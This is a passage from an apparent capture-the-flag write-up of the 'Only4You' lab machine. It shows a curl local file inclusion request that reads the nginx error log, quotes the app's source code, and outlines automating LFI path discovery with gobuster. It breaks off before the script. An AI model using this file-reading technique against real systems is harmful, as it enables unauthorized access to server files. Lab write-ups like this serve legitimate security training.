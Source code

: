 So I started to search for interesting information and I found:
I wanted to get to the webroot but I didn't know whats the webroot directory name so I thought to myself I know that we're running on nginx so I searched for interesting stuff there, and found:

```

$ curl -s http://beta.only4you.htb/download --data "image=/var/log/nginx/error.log
2023/04/28 13:25:55 [error] 1046#1046: *1433884 upstream prematurely closed connection while reading response header from upstream, client: 10.10.16.76, server: only4you.htb, request: "POST / HTTP/1.1", upstream: "http://unix:/var/www/only4you.htb/only4you.sock:/", host: "only4you.htb"

```
And here we can see the /var/www/only4you.htb webroot directroy. Thats great, know we can check out app.py:

```

from form import sendmessage

@app.route('/', methods=['GET', 'POST'])                                                                                                      
def index():                                                                                                                                  
    if request.method == 'POST':                                                                                                              
        email = request.form['email']                                                                                                         
        subject = request.form['subject']                                                                                                     
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

```
This is the interesting thing from `app.py` this `index` function seems to send an email and check it's status, but we don't know how it's sending the email because it's using a self created function called `sendmessage` and we don't know how it operates. We can see in the imports section the following `from form import sendmessage` so probably there is a file called `form.py` containing the function `sendmessage` and there is.
 
But I didn't find the `form.py` file like that, me and my stupidity, I didn't think about the import part so I took the hard way, and created a flask server the requests the `curl` command we do for the lfi, then whichever directory I specify in the server it would output it in the browser so then I can run `gobuster` as if we're searching for hidden directories but it's automated lfi. This is the script I used:
